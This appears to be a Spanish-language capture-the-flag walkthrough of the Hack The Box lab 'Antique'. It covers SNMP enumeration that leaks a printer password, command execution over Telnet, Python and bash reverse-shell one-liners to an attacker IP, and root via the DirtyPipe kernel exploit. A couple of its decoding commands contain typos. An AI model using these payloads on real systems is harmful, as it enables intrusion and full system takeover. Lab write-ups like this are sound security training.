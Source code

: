 ## Antique

---

![imagenimagen](/images/20250523112657.png)

###### Técnicas demostradas:

- SNMP Enumeration
- Network Printer Abuse
- CUPS Administration Exploitation (ErrorLog)
- EXTRA -> (DirtyPipe) (CVE-2022-0847)

---

Realizamos el escaneo de puertos por TCP con `nmap`

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
```

![imagenimagen](/images/20250429111124.png)

Realizamos un escaneo exhaustivo del puertos encontrado.

```bash
nmap -p23 -sCV 10.10.11.107 -oN targeted
```

![imagenimagen](/images/20250429111530.png)

Haremos un escaneo de los puertos `UDP` de la máquina.

```bash
nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
```

Lo analizamos de forma exhaustiva

```bash
nmap -p161 -sU -sV -sC 10.10.11.107
```

![imagenimagen](/images/20250429120521.png)

Ya que el `SNMP` es público vamos a usar la herramienta `snmpwalk` para obtener información

```bash
snmpwalk -v 2c -c public 10.10.11.107
```

![imagenimagen](/images/20250429120647.png)

Lanzaremos una consulta `MIB` --> [Emisión de una consulta MIB de SNMP - Documentación de IBM](https://www.ibm.com/docs/es/networkmanager/4.2.0?topic=information-issuing-snmp-mib-query)

```bash
snmpwalk -v 2c -c public 10.10.11.107 1
```

![imagenimagen](/images/20250429121023.png)

Mediante Python vamos a decodificar esta cadena

```python
import binascii

s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 134'

binascci.unhexlify(s.replace(' ',''))
```

![imagenimagen](/images/20250429121737.png)

Otra manera de hacerlo mediante `bash`

```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 134" | xargs | xxd -ps r
```

Ahora que tenemos la contraseña vamos a conectarnos a la máquina por `Telnet`

```bash
telnet 10.10.11.107 23
```

![imagenimagen](/images/20250429121842.png)

Si usamos la `?` para que nos muestre las opciones

```bash
?
```

Llama la atención que permite la ejecución de comando mediante `exec` pero antes vamos a probar otra cosa.

![imagenimagen](/images/20250429121904.png)

Probamos a cambiar el nombre del host

```bash
host-name: test.htb
```

![imagenimagen](/images/20250429122148.png)

Tras no poder actualizarlo vamos a ejectar otro comando

```bash
exec id
```

Como vemos el usuario es `lp` que pertenece al grupo `lpadmin`

![imagenimagen](/images/20250429122325.png)

Sabiendo esto vamos a preparar un payload con Python para entablarnos una reverse shell, podremos a la escucha a nuestra máquina por el puerto 1234

```bash
nc -nlvp 1234
```

Y en la máquina a través de Telnet:

```bash
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

o

```bash
exec bash -c "bash -i >& /dev/tcp/10.10.14.9/1234 0>&1"
```

![imagenimagen](/images/20250429123054.png)

En el directorio personal del usuario `lp` tenemos la primera flag

![imagenimagen](/images/20250429123213.png)

#### Escalada de privilegios:

Vamos a emplear la vulnerabilidad CVE-2022-0847 que afecta al kernel de versión antigua. Para ello usaremos: https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

Una vez tenemos el exploit.c en la máquina lo complilamos:

```bash
gcc priv.c -o priv
```

Por último lo ejecutamos:

```bash
./priv
```

![imagenimagen](/images/20250430102908.png)

Tenemos la flag de root:

![imagenimagen](/images/20250430102948.png)
